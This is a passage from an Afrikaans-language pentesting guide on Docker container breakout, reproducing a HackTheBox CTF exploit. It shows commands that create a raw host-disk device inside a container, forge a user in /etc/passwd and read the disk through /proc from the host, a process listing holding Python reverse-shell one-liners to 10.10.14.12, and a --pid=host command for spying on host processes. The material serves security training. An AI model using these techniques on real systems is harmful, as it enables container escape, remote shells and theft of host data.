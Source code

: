 **Uitbuiting** voorbeeld van hierdie [**verslag**](https://radboudinstituteof.pwning.nl/posts/htbunictfquals2021/goodgames/):
```bash
# On the container as root
cd /
# Crate device
mknod sda b 8 0
# Give access to it
chmod 777 sda

# Create the nonepriv user of the host inside the container
## In this case it's called augustus (like the user from the host)
echo "augustus:x:1000:1000:augustus,,,:/home/augustus:/bin/bash" >> /etc/passwd
# Get a shell as augustus inside the container
su augustus
su: Authentication failure
(Ignored)
augustus@3a453ab39d3d:/backend$ /bin/sh
/bin/sh
$
```

```bash
# On the host

# get the real PID of the shell inside the container as the new https://app.gitbook.com/s/-L_2uGJGU7AVNRcqRvEi/~/changes/3847/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#privilege-escalation-with-2-shells user
augustus@GoodGames:~$ ps -auxf | grep /bin/sh
root      1496  0.0  0.0   4292   744 ?        S    09:30   0:00      \_ /bin/sh -c python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
root      1627  0.0  0.0   4292   756 ?        S    09:44   0:00      \_ /bin/sh -c python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
augustus  1659  0.0  0.0   4292   712 ?        S+   09:48   0:00                          \_ /bin/sh
augustus  1661  0.0  0.0   6116   648 pts/0    S+   09:48   0:00              \_ grep /bin/sh

# The process ID is 1659 in this case
# Grep for the sda for HTB{ through the process:
augustus@GoodGames:~$ grep -a 'HTB{' /proc/1659/root/sda
HTB{7h4T_w45_Tr1cKy_1_D4r3_54y}
```
### hostPID

As jy toegang het tot die prosesse van die gasheer, sal jy in staat wees om baie sensitiewe inligting wat in daardie prosesse gestoor word, te benader. Voer toets laboratorium uit:
```
docker run --rm -it --pid=host ubuntu bash
```
Byvoorbeeld, jy sal in staat wees om die prosesse te lys deur iets soos `ps auxn` te gebruik en te soek na sensitiewe besonderhede in die opdragte.
